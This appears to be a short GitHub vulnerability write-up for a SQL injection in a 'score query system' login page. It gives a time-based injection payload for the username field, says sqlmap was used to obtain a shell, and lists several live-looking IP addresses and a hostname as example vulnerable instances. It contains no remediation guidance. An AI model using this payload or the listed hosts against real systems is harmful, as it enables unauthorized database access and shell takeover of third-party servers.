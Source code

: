 # SQL-injection-exists-in-the-score-query-system

Like:http://146.56.236.132:8088

Enter the account password, click login, and fill in the username with payload

![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/48a2084e-437e-4add-803f-b82718890afc)

And use sqlmap
Payload:admin');WAITFOR DELAY '0:0:5'--
![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/63a0fcf9-a7db-41bf-8c9b-acae69bbc830)

SQLmap getshell

![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/c1872442-8ef8-4180-a652-7bdb17fea092)
![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/740b3283-5ea8-4c96-aedf-ccffae7b4c46)

For example:
Like http://119.3.182.189:18081

LIke http://146.56.236.132:8008/

Like http://30.hooy.cc:18080/

Like http://117.36.197.243:8007/
